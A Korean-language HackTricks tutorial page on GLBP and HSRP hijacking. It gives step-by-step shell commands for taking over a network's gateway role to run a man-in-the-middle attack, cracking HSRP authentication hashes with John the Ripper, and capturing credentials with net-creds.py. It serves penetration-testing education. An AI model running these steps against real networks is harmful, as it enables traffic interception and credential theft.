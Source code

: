 # GLBP & HSRP 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>


## FHRP Hijacking 개요

### FHRP에 대한 통찰력
FHRP는 여러 라우터를 단일 가상 유닛으로 병합하여 네트워크의 견고성을 제공하기 위해 설계되었습니다. Cisco Systems은 GLBP 및 HSRP와 같은 중요한 프로토콜을 이 스위트에 도입했습니다.

### GLBP 프로토콜 통찰력
Cisco의 창조물인 GLBP는 TCP/IP 스택에서 작동하며, 통신에는 UDP 포트 3222를 사용합니다. GLBP 그룹의 라우터는 3초 간격으로 "hello" 패킷을 교환합니다. 라우터가 이러한 패킷을 10초 동안 보내지 않으면 오프라인으로 간주됩니다. 그러나 이러한 타이머는 고정되어 있지 않으며 수정할 수 있습니다.

### GLBP 작동 및 부하 분산
GLBP는 단일 가상 IP와 여러 개의 가상 MAC 주소를 사용하여 라우터 간에 부하를 분산하는 기능으로 두드러집니다. GLBP 그룹에서 모든 라우터가 패킷 전달에 참여합니다. HSRP/VRRP와 달리 GLBP는 다음과 같은 여러 메커니즘을 통해 실제로 부하를 분산합니다.

- **호스트 종속 부하 분산:** 호스트에 일관된 AVF MAC 주소 할당을 유지하여 안정적인 NAT 구성에 필수적입니다.
- **라운드 로빈 부하 분산:** 기본 접근 방식으로, 요청하는 호스트 사이에서 AVF MAC 주소 할당을 번갈아가며 수행합니다.
- **가중치 기반 라운드 로빈 부하 분산:** 미리 정의된 "가중치" 메트릭을 기반으로 부하를 분산합니다.

### GLBP의 주요 구성 요소 및 용어
- **AVG (Active Virtual Gateway):** MAC 주소를 피어 라우터에 할당하는 주요 라우터입니다.
- **AVF (Active Virtual Forwarder):** 네트워크 트래픽을 관리하는 라우터입니다.
- **GLBP 우선 순위:** AVG를 결정하는 메트릭으로, 기본값은 100이며 1에서 255 사이의 범위를 가집니다.
- **GLBP 가중치:** 라우터의 현재 부하를 반영하며, 수동으로 또는 객체 추적을 통해 조정할 수 있습니다.
- **GLBP 가상 IP 주소:** 모든 연결된 장치에 대한 네트워크의 기본 게이트웨이로 사용됩니다.

GLBP는 상호 작용을 위해 예약된 멀티캐스트 주소 224.0.0.102와 UDP 포트 3222를 사용합니다. 라우터는 3초 간격으로 "hello" 패킷을 전송하며, 패킷이 10초 동안 누락되면 비운영 상태로 간주됩니다.

### GLBP 공격 메커니즘
공격자는 우선 순위 값이 가장 높은 (255) GLBP 패킷을 보내어 주 라우터가 될 수 있습니다. 이로 인해 DoS 또는 MITM 공격이 발생하여 트래픽 가로채기 또는 리디렉션이 가능해집니다.

### Loki를 사용한 GLBP 공격 실행
[Loki](https://github.com/raizo62/loki_on_kali)는 우선 순위와 가중치가 255로 설정된 패킷을 주입하여 GLBP 공격을 수행할 수 있습니다. 공격 전 단계에서는 Wireshark와 같은 도구를 사용하여 가상 IP 주소, 인증 존재 여부 및 라우터 우선 순위 값을 포함한 정보를 수집해야 합니다.

공격 단계:
1. Promiscuous 모드로 전환하고 IP 포워딩을 활성화합니다.
2. 대상 라우터를 식별하고 해당 IP를 검색합니다.
3. 임의의 ARP를 생성합니다.
4. AVG를 가장한 악성 GLBP 패킷을 주입합니다.
5. 공격자의 네트워크 인터페이스에 GLBP 가상 IP와 동일한 보조 IP 주소를 할당합니다.
6. 완전한 트래픽 가시성을 위해 SNAT를 구현합니다.
7. 원래 AVG 라우터를 통해 계속된 인터넷 액세스를 보장하기 위해 라우팅을 조정합니다.

이러한 단계를 따라 공격자는 네트워크 트래픽을 가로채고 분석할 수 있는 "중간자"로 자리 잡을 수 있으며, 이는 암호화되지 않거나 민감한 데이터를 포함한 네트워크 트래픽을 가로챌 수 있습니다.

데모를 위해 필요한 명령어 일부는 다음과 같습니다:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
트래픽 모니터링 및 가로채기는 net-creds.py 또는 유사한 도구를 사용하여 침해된 네트워크를 통해 흐르는 데이터를 캡처하고 분석하는 것으로 수행될 수 있습니다.

### HSRP 하이재킹에 대한 수동 설명과 명령어 세부 정보

#### HSRP(Hot Standby Router/Redundancy Protocol) 개요
HSRP는 Cisco의 프로프라이어터리 프로토콜로, 네트워크 게이트웨이의 장애 조치를 위해 설계되었습니다. 이 프로토콜은 여러 물리적 라우터를 공유 IP 주소를 가진 단일 논리적 유닛으로 구성할 수 있게 해줍니다. 이 논리적 유닛은 트래픽을 관리하는 주 라우터에 의해 관리됩니다. GLBP와 달리 HSRP는 로드 밸런싱을 위해 우선순위와 가중치와 같은 메트릭을 사용하지 않고, 단일 활성 라우터에 의존합니다.

#### HSRP에서의 역할과 용어
- **HSRP 활성 라우터**: 트래픽 흐름을 관리하는 게이트웨이로 작동하는 장치입니다.
- **HSRP 대기 라우터**: 활성 라우터가 실패할 경우 대체할 준비가 된 백업 라우터입니다.
- **HSRP 그룹**: 단일 견고한 가상 라우터를 형성하기 위해 협력하는 라우터의 집합입니다.
- **HSRP MAC 주소**: HSRP 설정에서 논리적 라우터에 할당된 가상 MAC 주소입니다.
- **HSRP 가상 IP 주소**: HSRP 그룹의 가상 IP 주소로, 연결된 장치들의 기본 게이트웨이로 작동합니다.

#### HSRP 버전
HSRP는 HSRPv1과 HSRPv2 두 가지 버전으로 제공되며, 주로 그룹 용량, 멀티캐스트 IP 사용 및 가상 MAC 주소 구조의 차이가 있습니다. 이 프로토콜은 서비스 정보 교환을 위해 특정 멀티캐스트 IP 주소를 활용하며, 3초마다 Hello 패킷을 전송합니다. 10초 간격으로 패킷을 수신하지 못하면 라우터는 비활성으로 간주됩니다.

#### HSRP 공격 메커니즘
HSRP 공격은 최대 우선순위 값을 주입하여 활성 라우터의 역할을 강제로 인계하는 것을 포함합니다. 이로 인해 Man-In-The-Middle (MITM) 공격이 발생할 수 있습니다. 공격 전 필수 단계로는 HSRP 설정에 대한 데이터 수집이 포함되며, 이는 Wireshark를 사용하여 트래픽 분석을 통해 수행할 수 있습니다.

#### HSRP 인증 우회를 위한 단계
1. HSRP 데이터를 포함하는 네트워크 트래픽을 .pcap 파일로 저장합니다.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py를 사용하여 .pcap 파일에서 MD5 해시를 추출합니다.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper를 사용하여 MD5 해시를 크랙합니다.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki를 사용한 HSRP 인젝션 실행**

1. HSRP 광고를 식별하기 위해 Loki를 실행합니다.
2. 네트워크 인터페이스를 promiscuous 모드로 설정하고 IP 포워딩을 활성화합니다.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki를 사용하여 특정 라우터를 대상으로 설정하고 크랙된 HSRP 암호를 입력하며 활성 라우터를 위장하는 필요한 구성을 수행합니다.
4. 활성 라우터 역할을 얻은 후, 네트워크 인터페이스와 IP 테이블을 구성하여 합법적인 트래픽을 가로챕니다.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 라우팅 테이블을 수정하여 트래픽을 이전의 활성 라우터를 통해 라우팅합니다.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. net-creds.py 또는 유사한 유틸리티를 사용하여 가로채힌 트래픽에서 자격 증명을 캡처합니다.
```shell
sudo python2 net-creds.py -i eth0
```

이러한 단계를 실행하면 공격자는 GLBP 하이재킹과 유사한 방식으로 트래픽을 가로채고 조작할 수 있는 위치에 있게 됩니다. 이는 HSRP와 같은 중복성 프로토콜의 취약성을 강조하며, 견고한 보안 조치의 필요성을 보여줍니다.


## 참고 자료
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 구매하세요.
* 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **자신의 해킹 기법을 공유**하세요.

</details>
